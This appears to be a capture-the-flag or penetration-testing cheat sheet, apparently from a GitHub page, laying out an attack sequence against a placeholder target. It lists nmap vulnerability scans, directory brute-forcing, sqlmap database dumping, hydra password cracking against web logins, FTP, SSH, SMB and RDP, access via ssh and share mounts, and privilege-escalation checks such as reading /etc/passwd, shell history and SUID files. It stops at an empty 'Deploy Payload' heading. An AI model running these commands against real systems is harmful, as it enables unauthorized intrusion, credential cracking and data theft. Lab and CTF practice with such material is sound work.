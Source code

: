 # 1° Scan Nmap 

$sudo nmap -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum [Target_IP]

$sudo nmap -Pn --script http-robots.txt [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php.txt,html -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap

$sqlmap -u http://Target_IP/login.php --forms --dump

# 4° Crack Password

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Gain Access

http://example.com/login

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw <Target_IP>:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //<Target_IP>/share_name /mnt/dir-target

# 6° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

# 7° Deploy Payload
